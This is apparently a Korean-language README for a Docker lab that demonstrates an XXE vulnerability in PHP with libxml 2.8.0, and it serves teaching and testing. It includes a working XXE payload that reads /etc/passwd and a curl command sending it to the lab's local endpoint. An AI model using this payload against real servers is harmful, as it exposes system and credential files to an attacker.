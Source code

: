 # PHP 환경 XML 외부 엔티티 주입 취약성 (XXE)

### 환경소개

- PHP 7.0.30
- libxml 2.8.0

### 환경 구성 및 실행

# 1. 아래 명령어를 사용해 테스트 환경을 실행함.
```
docker compose up -d
```

# 2. 환경 실행
환경이 시작된 후 `http://localhost:8083/index.php`를 접속하여 phpinfo를 확인하고, libxml을 검색하여 버전이 2.8.0이라는 것을 확인할 수 있음.

![](1.png)

# 3. 웹 디렉터리
웹 디렉터리는 `./www`이며, 여기에는 4개의 파일이 포함되어 있음. 

```bash
$ ls -al
total 24
drwxr-xr-x 2 root root 4096 Oct 31 09:06 .
drwxr-xr-x 3 root root 4096 Jun 21  2018 ..
-rw-r--r-- 1 root root  101 Oct 31 09:06 SimpleXMLElement.php # 예시: SimpleXMLElement 클래스를 사용하여 body를 파싱하는 예제
-rw-r--r-- 1 root root  112 Oct 31 09:06 dom.php ## 예시: DOMDocument를 사용하여 body를 파싱하는 예제
-rw-r--r-- 1 root root   16 Oct 31 09:06 index.php # phpinfo로 확인 가능
-rw-r--r-- 1 root root  102 Oct 31 09:06 simplexml_load_string.php # 예시: simplexml_load_string 함수를 사용하여 body를 파싱하는 예제
```

`dom.php`, `SimpleXMLElement.php` 및 `simplexml_load_string.php`는 모두 XXE 취약점을 유발함. 
<br>

### POC

# POC

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

### 결과 poc를 이용해 `etc/passwd` 파일을 읽을 수 있음.

# 버프스위트 사용 <br>
![](2.png)

# curl 사용 </br>
```bash
$ curl -d '<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE xxe [ <!ELEMENT name ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]> <root> <name>&xxe;</name> </root>' -X POST http://localhost:8083/simplexml_load_string.php
```
![](3.png)


### 정리
PHP의 버전은 XXE 공격에 영향을 미치지 않음.
<br>
libxml2.9.0 이후에는 기본적으로 외부 엔터티가 구문 분석되지 않으므로 XXE 취약점이 사라지고 있음.
<br>
PHP 환경에서 XXE 취약점을 보여주기 위해 이 예제에서는 libxml2.8.0 버전을 PHP로 컴파일함.
<br> 
phpinfo를 통해 libxml2.8.0 버전이라면 패치를 진행하는 것이 중요함.
